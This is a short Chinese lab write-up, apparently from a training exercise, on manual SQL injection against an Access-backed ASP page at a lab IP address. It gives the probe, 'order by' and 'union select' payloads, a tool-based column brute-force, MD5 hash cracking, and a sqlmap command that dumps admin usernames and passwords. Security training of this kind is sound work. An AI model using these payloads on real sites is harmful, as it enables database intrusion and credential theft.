 Acccess数据库没有库这个概念，整个数据库只有一个库
库里面存在着各种表

数据库结构
库
表
字段
    数据





做题：
实训目标
```javascript
1.掌握SQL注入原理；
2.了解手工注入的方法；
3.了解Access的数据结构；
4.了解字符串的MD5加解密；
```
访问环境
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22404027/1640251643118-8ff96aba-f8d4-4bca-adc5-3a887cc46191.png#clientId=u334faae5-74b1-4&from=paste&height=389&id=u8e4f1001&name=image.png&originHeight=389&originWidth=832&originalType=binary&ratio=1&size=37037&status=done&style=stroke&taskId=ue4c6bb18-0a1b-434e-9a0a-8591f12554a&width=832)

```javascript
http://219.153.49.228:40149/new_list.asp?id=1
```
手动测试
判断注入点
```javascript
http://219.153.49.228:40149/new_list.asp?id=1 and 1=2  访问正常
http://219.153.49.228:40149/new_list.asp?id=1 and 1=1 访问正常 数字注入 存在漏洞
```
判断字段
```javascript
http://219.153.49.228:40149/new_list.asp?id=1 order by 9 正常
http://219.153.49.228:40149/new_list.asp?id=1 order by 10 报错

所以有9个字段
```
显示回显
```javascript
http://219.153.49.228:40149/new_list.asp?id=1 union select 1,2,3,4,5,6,7,8,9
```
成功回显

access手动测试太麻烦了 不可靠
直接使用工具 爆破 爆破列名
![image.png](https://cdn.nlark.com/yuque/0/2021/png/22404027/1640252023095-59cebc09-e831-471a-96bf-daa1d8e7db7f.png#clientId=u334faae5-74b1-4&from=paste&height=490&id=ufc759828&name=image.png&originHeight=490&originWidth=714&originalType=binary&ratio=1&size=58297&status=done&style=stroke&taskId=u952cc781-1356-497e-b98a-21494ced0bf&width=714)

对密码密文进行MD5解码，得到密码明文
```javascript
cmd5.com
```
使用sqlmap工具 一把梭
```javascript
ssqlmap.py -u http://219.153.49.228:40916/new_list.asp?id=1 -T admin -C username,passwo --dump
```
sqlmap 也是调用自己字典中的三千多个常用列明进行测试而已


